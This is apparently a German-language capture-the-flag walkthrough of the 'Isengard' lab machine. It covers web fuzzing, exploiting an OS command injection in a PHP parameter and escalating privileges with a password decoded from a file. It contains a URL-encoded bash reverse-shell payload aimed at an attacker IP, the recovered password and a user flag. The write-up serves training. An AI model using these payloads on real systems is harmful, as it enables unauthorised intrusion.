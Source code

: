 1.  **Web-Enumeration:**
    *   `gobuster dir` fand nur `index.html`.
    *   Durch (im Log nicht gezeigte) Entdeckung des Pfades `/y0ush4lln0tp4ss/east/mellon.php` und anschließendes Parameter-Fuzzing mit `ffuf` wurde der GET-Parameter `frodo` identifiziert:
        ```bash
        ffuf -w /usr/share/seclists/Discovery/Web-Content/big.txt -u 'http://isengard.vm/y0ush4lln0tp4ss/east/mellon.php?FUZZ=id' -fs 0
        # Gefunden: frodo
        ```

2.  **Identifizierung und Ausnutzung der Command Injection:**
    *   Der `frodo`-Parameter war anfällig für OS Command Injection:
        ```bash
        curl 'http://isengard.vm/y0ush4lln0tp4ss/east/mellon.php?frodo=id' 
        # Ausgabe: uid=33(www-data) gid=33(www-data) groups=33(www-data)
        ```
    *   Die Schwachstelle wurde genutzt, um eine Reverse Shell zu starten:
        ```bash
        # Auf Angreifer-Maschine:
        # nc -lvnp 9001
        # Über Browser/Curl (URL-kodiert):
        # http://isengard.vm/y0ush4lln0tp4ss/east/mellon.php?frodo=%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F[Angreifer-IP]%2F9001%200%3E%261%27
        ```
    *   Initialer Zugriff als `www-data` wurde erlangt und die Shell stabilisiert.

---

## Phase 3: Privilege Escalation (www-data -> sauron -> root)

### www-data zu sauron (Passwort aus Datei)

1.  **Passwortfund:**
    *   Als `www-data` wurde im Verzeichnis `/var/www/html/y0ush4lln0tp4ss/east/` die Datei `ring.txt` gefunden.
    *   Der Inhalt wurde zweifach Base64-dekodiert:
        ```bash
        base64 -d ring.txt | base64 -d
        # Ausgabe: yXKMw5wpSArL2CLX
        ```
2.  **Benutzerwechsel zu `sauron`:**
    *   Das dekodierte Passwort `yXKMw5wpSArL2CLX` gehörte dem Benutzer `sauron`.
    *   `www-data@isengard:/...$ su sauron` mit diesem Passwort war erfolgreich.
    *   Die User-Flag `HMV{Y0uc4nN0tp4sS}` wurde in `/home/sauron/user.txt` gefunden.
